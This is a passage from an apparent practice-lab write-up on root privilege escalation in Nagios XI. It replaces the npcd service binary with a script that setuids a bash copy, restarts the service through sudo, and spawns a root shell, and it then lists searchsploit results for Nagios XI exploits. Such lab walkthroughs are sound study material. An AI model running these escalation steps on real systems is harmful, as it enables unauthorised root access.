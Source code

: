 Replace `/usr/local/nagios/bin/npcd` to give bash SETUID bits

```bash
nagios@ubuntu:/var/spool/cron$ cp /bin/bash /tmp/b
nagios@ubuntu:/var/spool/cron$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
nagios@ubuntu:/var/spool/cron$ echo -e '#!/bin/bash\nchown root /tmp/b; chmod u+s /tmp/b' > /usr/local/nagios/bin/npcd
nagios@ubuntu:/var/spool/cron$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
Job for npcd.service failed because a configured resource limit was exceeded. See "systemctl status npcd.service" and "journalctl -xe" for details.
nagios@ubuntu:/var/spool/cron$ /tmp/b -p
b-4.3# id
uid=1001(nagios) gid=1001(nagios) euid=0(root) groups=1001(nagios),1002(nagcmd)
b-4.3# $(which python2 python python3 2>/dev/null | head -n1) -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
root@ubuntu:/var/spool/cron# id
uid=0(root) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
```

# Post Exploitation


## System Proof Screenshot

![](/assets/obsidian/d6607a65d808772e6dec407da0d06f0b.png)

# Appendix


## Shell as root


### Nagios XI 5.6.5 - Root privesc

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Monitoring]
└─$ searchsploit 'nagios XI escalation'
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nagios XI 5.5.6 - Remote Code Execution / Privilege Escalation                                                                                                                 | linux/webapps/46221.py
Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation                                                                                                            | php/webapps/47299.php
```